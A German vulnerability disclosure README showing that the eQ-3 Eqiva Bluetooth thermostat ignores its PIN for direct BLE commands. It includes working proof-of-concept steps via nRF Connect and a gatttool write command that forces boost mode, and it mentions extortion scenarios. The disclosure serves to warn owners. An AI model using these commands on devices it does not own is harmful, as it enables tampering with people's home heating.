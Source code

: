 # Sicherheitslücke in Thermostat eQ-3 Eqiva BLE

Bei dem [eQ-3 Eqiva](http://www.eq-3.de/produkte/eqiva/bluetooth-smart-heizkoerperthermostat.html) handelt es sich um einen smarten Heizungsthermostat mit einer integrierten Bluetooth LE Schnittstelle. Der Hersteller empfiehlt folgende App zum Steuern des Thermostates per Smartphone: [Calor BT](https://play.google.com/store/apps/details?id=de.eq3.ble.android&hl=de).

Verbindet man sich per App mit dem Heizungsthermostat wird ein vierstelliger PIN Code abgefragt, der am Thermostat abgelesen werden muss. Ein Sicherheitsfeature, damit nur jemand den Thermostat steuern kann, der auch physischen Zugang zu ihm hat, z.B. in der eigenen Wohnung.

Interessanterweise spielt dieser PIN Code jedoch keine Rolle, wenn man direkt BLE Befehle mit entsprechenden Werkzeugen - ein Smartphone ist ausreichend - an den Thermostaten sendet (siehe unten). **Dies bedeutet, dass jeder Thermostat in Reichweite (ca. 40m bei Bluetooth LE [1]) mit einfachsten Mitteln fern- und damit fremdgesteuert werden kann.**

Angriffsmotive reichen von dem einfachen Verstellen der Einstellungen bis hin zu Erpressungsszenarien wie dem Abstellen der Heizung bis ein entsprechender Geldbetrag gezahlt wurde.

**Im Moment kann nur dazu geraten werden die Bluetoothfunktion im Thermostat zu deaktivieren.**

IMHO: _Wie dieses Gerät mit dieser gravierenden Sicherheitslücke Testsieger bei Stiftung Warentest werden konnte ist mir ein Rätsel._

## Android

### 1\. nRF Connect installieren

<https://play.google.com/store/apps/details?id=no.nordicsemi.android.mcp&hl=de>

### 2\. Mit Thermostat verbinden

![01-nrf-connect](/img/01-nrf-connect.png)

### 3\. BLE Charactristic auswählen

![02-nrf-connect](/img/02-nrf-connect.png)

### 4\. Boostmodus aktivieren (Ventil wird voll geöffnet)

![03-nrf-connect](/img/03-nrf-connect.png)

## Linux (getestet mit Raspberry Pi 3 und Raspbian)

### 1\. Nach BLE Geräten suchen

`hcitool lescan`

![HCI Tool Scan Example](/img/01-hcitool-scan.png)

Gerät mit Name "CC-RT-BLE" ist der Thermostat.

### 2\. Boostmodus aktivieren (Ventil wird voll geöffnet)

`gatttool -b 00:1A:22:09:DA:10 --char-write-req --handle=0x0411 --value=4501`

_Entsprechend die MAC-Adresse austauschen._

## Weitere Informationen unter:

- [eq-3 Eqiva API Dokumentation von Heckie75 bei Github](https://github.com/Heckie75/eQ-3-radiator-thermostat/blob/master/eq-3-radiator-thermostat-api.md)

- [FHEM Forum](https://forum.fhem.de/index.php/topic,39308.0.html)

## Referenzen:

[1] - <https://de.wikipedia.org/wiki/Bluetooth_Low_Energy>
